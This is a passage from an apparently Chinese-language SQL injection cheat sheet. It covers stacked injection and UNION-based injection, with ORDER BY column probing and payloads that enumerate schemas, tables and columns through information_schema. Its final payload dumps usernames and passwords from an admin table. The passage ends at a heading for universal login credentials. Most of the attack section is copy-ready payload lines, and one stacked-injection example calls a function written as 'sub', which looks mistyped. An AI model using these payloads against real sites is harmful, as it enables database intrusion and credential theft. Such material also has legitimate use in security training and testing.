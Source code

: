 在 SQL 查询关键字被拦截时，可以尝试使用堆叠注入

分号是用来表示一条 SQL 语句的结束，在结束一个 SQL 语句后继续构造下一条语句，数据库依然会继续执行就导致了堆叠注入

~~~sql
id = 1' and 1=1; select if(sub(user(),1,1)='r',sleep(3),1)%23
~~~



### 联合注入

**前提**：

1. 两张虚拟的表需要有相同的列数
2. 虚拟表对应列的数据类型要相同

**判断数据列数**：使用 order by 语句，用数字代替列名，当报错时，或者当无数据出现时，推出列数

- order by 1 -> order by 2 -> order by 3 -> order by 4 -> 数据库报错
- order by 1 有数据 -> order by 2 有数据 -> order by 3 无数据

**判断数据显示位置**：当前面的查询语句为假，也就是数据不存在时，union select 之后查询出的结果就会显示在页面中

- ~~~sql
  ?id=-1' UNION SELECT 1,database(),version() --+
  # 一般使用 -1 来使前面的数据查询为假
  ~~~

**常用 union**：

~~~sql
# 判断回显
id = -1 union select 1, 2, 3

# 显示所有数据库
id=0 union select 1,group_concat(schema_name),3 from (information_schema.schemata)

# 显示当前数据库所有表
d=0 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()
 
# 显示当前库某个表的所有列
d=0 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='admin'

# 显示当前库所有值
# 0x3A 是 ascii 中的 :
id=0 union select 1,group_concat(id,0x3a,username,0x3a,password),3 from (admin)
~~~



## 万能用户名/密码
